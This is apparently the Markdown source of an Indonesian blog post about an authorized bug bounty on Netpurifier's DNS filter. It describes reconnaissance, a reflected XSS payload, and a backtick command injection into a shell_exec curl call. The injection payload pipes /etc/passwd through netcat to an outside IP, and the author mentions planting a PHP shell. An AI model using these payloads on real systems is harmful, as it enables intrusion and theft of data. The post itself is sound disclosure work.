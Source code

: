 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS on Netpurifier Private Bug Bounty"
date: 2019-02-14 07:00
categories: bugbounty
---
```

<div align="center" style="background-color:black">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/logo.png?raw=true">
</div>

### <b>Prolog</b>
[Netpurifier](https://netpurifier.id/) adalah merek lain dari DNS Bersih (DNSB) untuk pasar Internasional. Netpurifier menawarkan beberapa produk dan jasa, termasuk didalamnya DNS Filtering yang disediakan gratis untuk umum. Pada kesempatan kali ini saya akan share writeup private bug bounty untuk produk DNS Filter dari Cyber Army Indonesia. Diberikan 2 alamat yang masuk dalam scope, yaitu  kominfo.demo.netpurifier.id dan trust.netpurifier.id, ternyata 2 domain tersebut terdapat dalam 1 server dengan aplikasi yang serupa, jadi total ada 6 vuln yang saya temukan.

### <b>Reconnaissance</b>
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap trust.netpurifier.id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/2019-02-14%2009_34_57-siti@master_%20~.png?raw=true">
</div>


Saat saya buka trust.netpurifier.id:8010, disana terdapat form login yang setelah saya tanyakan credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

### <b>XSS via POST Request
Untuk metode XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/XSS%20POST%202/2019-02-11%2022_50_24-trust-demo%20-%20DNSBSE.png?raw=true">
</div>


### <b>Remote Code Execution</b>
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya tebak kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_33_38-siti@master_%20~_exploit.png?raw=true">
</div>

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload `cat /etc/passwd | nc 128.199.221.101 9091` pada parameter server, dan didapatkan result:
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_29_29-siti@master_%20~_exploit.png?raw=true">
</div>
Lalu saya buat shell php dan eksekusi ls -lah, dan selebihnya saya dapat explorasi server lebih dalam:

RIP SS :v 
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/IMG_0167.JPG?raw=true">
</div>



- 12 February Send Report
- 13 February Validation
- 14 February disclose
- Rewarded


### <b>Reference:</b>
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f

### <b>Thanks:</b>
- Ngesec
- Surabaya Hacker Link
- You!